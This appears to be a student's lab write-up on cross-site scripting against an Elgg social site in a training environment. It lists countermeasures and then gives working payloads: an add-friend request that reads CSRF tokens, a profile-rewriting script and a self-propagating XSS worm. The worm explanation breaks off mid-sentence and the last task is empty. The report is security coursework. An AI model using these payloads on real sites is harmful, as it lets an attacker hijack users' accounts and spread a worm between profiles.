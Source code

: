 # Background
## What is XSS attack?
![[Drawing 2023-11-20 15.57.56.excalidraw|650]]
## Countermeasures
1. Sanitize(Filter): The goal for this countermeasure is to remove the code from user's inputs. Usually, the malicious code are embedded with a script tag. Therefore, by deleting this tag, the malicious code can be treated as normal text. 
2. Encoding: Similar to the first method, we can use the ASCII characters to treat the tag brackets '<' and '>' as characters by encoding them. It can also make the malicious code be text. 
3. Content Security Policy: This is a method to control the script usage of the files. For example, we can only allow the website use the same source script. We can also restrict the inline script with nonces to prevent users from using unknown source scripts. 
# Task 1
## Results and Screenshots
Input: 
`<script>alert('xss')</script>` 
Output: 
![[Pasted image 20231120123001.png|650]]
## Explanation
For the website input, it has a "Edit HTML" button which allows the users to input the HTML tags directly without sanitizing them. Therefore, if we put script tags inside the input box, the website would run the code between the script tags. When we click the save button, it will also put everything into the database as the script tag, which means every user who access this page will automatically run the not sanitized code. 
# Task 2
## Results and Screenshots
Captured: 
`http://www.seed-server.com/action/friends/add? friend=59&__elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw&_ _elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw`
Script: 
```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token;  
var sendurl= "http://www.seed-server.com/action/friends/add? friend=59"+ts+token+ts+token; 
Ajax=new XMLHttpRequest(); 
Ajax.open("GET", sendurl, true); 
Ajax.send(); 
}
</script>
```
Alice's account automatically sent the request: (When refresh, the button automatically changed from "Add Friend" to "Remove Friend")
![[Pasted image 20231120125238.png|650]]
## Questions
1. Question 1: Explain the purpose of (1) and (2), why are they needed? 
Answer: The website contains countermeasures regarding the CSRF attack. The token and the timestamp are used as a verification of user's status. Therefore, the two lines are used to directly extract the CSRF token and timestamp to the variable to use them easily. 
2.  If the Elgg application only provides the Rich Text Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode (“Edit HTML”), can you still launch a successful attack?
Answer: Yes. Usually, the Rich Text Editor contains safety measures to clear the malicious input. They usually intend to delete HTML tags inside the user input. However, we can directly modify the content in the input tag to avoid the additional verification. 
# Task 3
## Results and Screenshots
Input: 
```
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp
__elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content="&description=<p>samy is my
hero</p>"+ts+token+userName+guid; //FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid)
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```
When Alice is accessing Samy's web page, we can see the request is automatically sent.![[Pasted image 20231120132828.png|650]]Alice's profile after visit Samy's Profile: 
![[Pasted image 20231120132859.png|650]]
## Questions
3. Why do we need Line (1)? If we do not add this check, can the attack be successful? How come we do not have such a check in the add-friend attack (add_friend.js)? 
Answer: If we do not add this check, when Samy is checking his own page, the malicious code may copy the text "Samy is my hero" to his own profile, which will overwrite the malicious content. For add_friend.js, the malicious code does not do any overwrite, it only send the get request to the server to add Samy as friend. When Samy access the server, the server would not accept a request that add himself as a friend. Therefore, adding this if statement or not will not influence the result of the attack. 
# Task 4
## Results and Screenshots
Input: 
```
<script id="worm">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>"; 
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
alert(jsCode);
window.onload = function(){
userName="&name="+elgg.session.user.name; var guid="&guid="+elgg.session.user.guid; var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token; 
var content="&description="+wormCode+ts+token+userName+guid; 
var samyGuid=59; 
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid) { 
var Ajax=null; 
Ajax=new XMLHttpRequest(); 
Ajax.open("POST", sendurl, true); 
Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); 
Ajax.send(content); } 
}
```
Samy's Profile: (After put the worm)
![[Pasted image 20231120154213.png]]
Alice Profile (Before put the worm):
![[Pasted image 20231120135306.png]]
Alice Profile (After visit Samy's Profile):
![[Pasted image 20231120154139.png]]
Boby Profile (Before visit Alice's Profile):
![[Pasted image 20231120154426.png]]
Boby Profile (After visit Alice's Profile):
![[Pasted image 20231120154514.png]]
## Explanation
The Self-Propagating XSS worm uses DOM to organize the 
The headerTag variable references the script header. The jsCode references the code itself. 

# Task 5
## Results and Screenshots
## 
